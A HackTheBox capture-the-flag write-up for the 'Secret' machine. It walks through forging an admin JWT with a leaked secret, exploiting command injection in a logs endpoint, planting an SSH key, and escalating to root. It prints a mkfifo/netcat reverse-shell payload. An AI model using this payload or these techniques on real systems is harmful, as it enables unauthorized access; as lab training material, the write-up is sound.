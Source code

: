 ```yaml
---
title: Secret HackTheBox Writeup
tags: [writeup,hackthebox,jwt,command-injection]
style: border
color: success
description: ""
---
```


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/2.png)

## Enumeration
We find the API documentation, we have to authenticate using a *JWT*.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/3.png)

If we try to access without a token, we see that we do not have access to the resource.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/4.png)

If we check the site, there is a link that allows us to download the code.

To get to the point, the file "*private.js*" shows the role and username of the administrator user of the application.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/5.png)

Using the authentication example from the documentation above, we see that the user "*theadmin*" is registered with the e-mail address "*root@dasith.works*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/6.png)

We register a user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/7.png)

We decode the *JWT* and see the data it contains.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/8.png)

We access the previous resource, but we still cannot access it because we are a user with a low privilege role.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/9.png)

We continue with the enumeration, we identify a "*.git*" and we see that they have made some modification in the "*.env*" file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/10.png)

We retrieve the file and read its contents, we find the "*token_secret*". This token would allow us to modify our JWT and be able to make arbitrary modifications on it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/11.png)

We add the attribute *"role": "admin"* and change our user to "*theadmin*" in our cookie and authenticate, we check that now it works and we have access as the user "*theadmin*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/12.png)


## Exploitation
Reviewing the sections of the site, we see that the resource "*logs?file=*" is vulnerable to **Command Injection**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/13.png)

We can exploit this vulnerability to read the "*user.txt*" file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/14.png)

We use the following payload to gain access (remember to encode it in URL), put a **netcat** listening and send the request from **Burp**.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/15.png)

We list an uncommon setuid binary named "*/opt/count*". 

We see that the resource has the permissions of the root user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/16.png)

We launch **dirsearch**, we will list the file "*installer/subiquity-server-debug.log*", it contains the hashed credentials of the users used in the application.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/17.png)

We tried to crack the hash of the user "*dasith*", but failed. So we will put our public key in the user's "*authorized_keys*" file and authenticate with our private key through the **SSH** service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/18.png)


## Privilege Escalation
Now we execute this statement to cause the crashes and to store in the report log the root flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/19.png)

We check the "*CoreDump*" file and see that the root flag is in it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/20.png)




